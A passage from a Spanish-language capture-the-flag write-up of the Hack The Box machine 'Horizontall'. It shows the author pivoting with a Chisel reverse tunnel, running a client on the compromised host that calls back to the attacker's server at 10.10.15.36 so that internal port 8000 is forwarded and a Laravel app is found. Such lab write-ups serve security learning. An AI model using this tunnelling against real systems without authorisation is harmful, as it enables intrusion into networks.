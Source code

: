 En el puerto 1337 se encuentra el servicio de `Node.js`, que se está encargando de procesar ciertas peticiones del servidor web; el 3306 es el servidor de MySQL que contiene la base de datos de Strapi a la que accedí anteriormente; y, del puerto 8000 no tengo ningún tipo de información. Entonces, para averiguar el contenido de este puerto, y al no contar con credenciales para conectarme por SSH, decido emplear la herramienta `Chisel` para realizar un **port forwarding** que redirija el tráfico del puerto 8000 de mi máquina de atacante al puerto 8000 de la máquina víctima, lo cual me permitirá comprobar el servicio que se está ejecutando en dicho puerto.

Para ello, hay que seguir los siguientes pasos:

1. Transferir el ejecutable de Chisel a la máquina víctima.
2. Levantar un servidor de Chisel en la máquina ofensiva que escuche peticiones en un determinado puerto.
3. Ejecutar Chisel en la máquina víctima, especificando la IP y puerto del servidor y definiendo las reglas correspondientes al redireccionamiento de puertos que se quiere realizar.

```
# chisel server -p 5001 --reverse

2021/10/31 18:48:16 server: Reverse tunnelling enabled
2021/10/31 18:48:16 server: Fingerprint IlFjG0RClS1yXjz7CNrb8tm0LgLeXFBblTuH/zgBgMk=
2021/10/31 18:48:16 server: Listening on http://0.0.0.0:5001
2021/10/31 18:48:19 server: session#1: tun: proxy#R:8000=>localhost:8000: Listening

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

strapi@horizontall:/tmp$ ./chisel client 10.10.15.36:5001 R:8000:localhost:8000

2021/10/31 22:48:19 client: Connecting to ws://10.10.15.36:5001
2021/10/31 22:48:20 client: Connected (Latency 46.359648ms)

```

Una vez realizado el redireccionamiento, compruebo que el servicio que se ejecuta en el puerto 8000 se trata de un servicio HTTP. Por tanto, procedo a identificar su contenido a través del navegador. Tal y como se observa en la siguiente imagen, se está utilizando el framework **Laravel** (versión 8), que se utiliza para desarrollar aplicaciones web mediante PHP (versión 7.4.18):

![Página principal del servicio HTTP ejecutado en el puerto 8000](/assets/img/HTB/Horizontall/laravel.png)
